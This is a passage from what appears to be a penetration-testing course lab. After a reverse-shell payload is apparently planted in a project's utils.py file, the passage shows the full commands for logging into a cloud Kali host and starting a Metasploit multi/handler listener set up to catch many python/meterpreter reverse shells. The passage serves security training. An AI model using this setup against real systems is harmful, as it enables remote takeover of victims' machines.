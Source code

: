> Listing 22 - Modifying utils.py File to Add the Generated Payload

Now that we've added the payload, we need to start our listener. Since we used the cloud Kali instance's IP, we'll SSH into our cloud Kali instance.

```
kali@kali:~$ ssh kali@192.88.99.76
The authenticity of host '192.88.99.76 (192.88.99.76)' can't be established.
ED25519 key fingerprint is SHA256:uw2cM/UTH1lO2xSphPrIBa66w3XqioWiyrWRgHND/WI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.88.99.76' (ED25519) to the list of known hosts.
kali@192.88.99.76's password: 

kali@cloud-kali:~$
```

> Listing 23 - Logging into Cloud Kali Instance via SSH

Once we're logged in, we need to start _Metasploit_. The first step will be to initialize the database. We can do this by using the **msfdb init** command. This command needs to be run as _root_, so we'll add **sudo** to the beginning.

```
kali@cloud-kali:~$ sudo msfdb init
[+] Starting database
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
```

> Listing 24 - Initializing Metasploit's Database

Once initialized, we can start Metasploit by running **msfconsole**.

Since we manually generated our payload, we'll **use** the _generic payload_ handler: **exploit/multi/handler**. We'll set **LHOST** to listen on all interfaces (**0.0.0.0**) and set **LPORT** to the value we used in the payload configuration (**4488**).

Since we don't know how many reverse shells we might capture, we need to set up Metasploit to capture multiple reverse shells. First, we don't want the listener to close as soon as a reverse shell connects. To prevent this, we'll set the **ExitOnSession** option to **false**. Finally, we'll **run** the listener as a job using **-j**. If we become flooded with reverse shells, we don't want Metasploit to immediately interact with them. To configure this, we'll also use the **-z** option for the **run** command.

```
kali@cloud-kali:~$ msfconsole
....

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0

msf6 exploit(multi/handler) > set LPORT 4488
LPORT => 4488

msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false

msf6 exploit(multi/handler) > run -jz
[*] Exploit running as background job 0.
```